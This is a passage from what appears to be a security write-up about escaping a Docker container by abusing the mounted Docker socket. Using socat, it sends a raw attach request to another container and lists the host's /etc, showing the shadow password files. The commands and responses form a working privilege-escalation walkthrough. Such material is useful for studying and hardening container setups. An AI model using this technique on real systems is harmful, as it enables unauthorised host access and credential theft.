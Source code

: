 And then use `socat` to send a raw HTTP request:

```
root@945784f80056:/# socat - UNIX-CONNECT:/var/run/docker.sock
POST /containers/f7365a47/attach?stream=1&stdin=1&stdout=1&stderr=1 HTTP/1.1
Host:
Connection: Upgrade
Upgrade: tcp
```

The daemon responds:

```
HTTP/1.1 101 UPGRADED
Content-Type: application/vnd.docker.raw-stream
Connection: Upgrade
Upgrade: tcp
```

And from now, we can send commands to the other container !

```
ls
^bin
boot
dev
etc
home
lib
lib64
media
mnt
mount
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

We can see that there is the `/mount` folder we asked for, which contains the content of the `/etc` directory from the host ! 

```
ls mount | grep shadow
 gshadow
gshadow-
shadow
shadow-
```
